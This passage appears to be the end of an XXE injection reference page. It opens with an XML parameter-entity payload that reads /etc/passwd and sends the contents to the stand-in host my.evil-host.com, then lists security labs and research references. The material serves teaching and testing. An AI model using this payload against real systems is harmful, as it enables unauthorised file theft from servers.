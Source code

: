 ```xml
<!-- Load the contents of a sensitive file into a variable -->
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!-- Use that variable to construct an HTTP get request with the file contents in the URL -->
<!ENTITY % param1 '<!ENTITY &#37; external SYSTEM "http://my.evil-host.com/x=%payload;">'>
%param1;
%external;
```


## Labs

* [Root Me - XML External Entity](https://www.root-me.org/en/Challenges/Web-Server/XML-External-Entity)
* [PortSwigger Labs for XXE](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)
    * [Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
    * [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)
    * [Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
    * [Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
    * [Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
    * [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)
    * [Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)
    * [Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
    * [Exploiting XXE to retrieve data by repurposing a local DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)
* [GoSecure workshop - Advanced XXE Exploitation](https://gosecure.github.io/xxe-workshop) 


## References

- [A Deep Dive into XXE Injection - Trenton Gordon - July 22, 2019](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)
- [Automating local DTD discovery for XXE exploitation - Philippe Arteau - July 16, 2019](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation)
- [Blind OOB XXE At UBER 26+ Domains Hacked - Raghav Bisht - August 5, 2016](http://nerdint.blogspot.hk/2016/08/blind-oob-xxe-at-uber-26-domains-hacked.html)
- [CVE-2019-8986: SOAP XXE in TIBCO JasperReports Server - Julien Szlamowicz, Sebastien Dudek - March 11, 2019](https://www.synacktiv.com/ressources/advisories/TIBCO_JasperReports_Server_XXE.pdf)
- [Data exfiltration using XXE on a hardened server - Ritik Singh - January 29, 2022](https://infosecwriteups.com/data-exfiltration-using-xxe-on-a-hardened-server-ef3a3e5893ac)
- [Detecting and exploiting XXE in SAML Interfaces - Christian Mainka (@CheariX) - November 6, 2014](http://web-in-security.blogspot.fr/2014/11/detecting-and-exploiting-xxe-in-saml.html)
- [Exploiting XXE in file upload functionality - Will Vandevanter (@_will_is_) - November 19, 2015](https://www.blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf)
- [EXPLOITING XXE WITH EXCEL - Marc Wickenden - November 12, 2018](https://www.4armed.com/blog/exploiting-xxe-with-excel/)
- [Exploiting XXE with local DTD files - Arseniy Sharoglazov - December 12, 2018](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
- [From blind XXE to root-level file read access - Pieter Hiele - December 12, 2018](https://www.honoki.net/2018/12/from-blind-xxe-to-root-level-file-read-access/)
- [How we got read access on Google’s production servers - Detectify - April 11, 2014](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/)
- [Midnight Sun CTF 2019 Quals - Rubenscube - jbz - April 6, 2019](https://jbz.team/midnightsunctfquals2019/Rubenscube)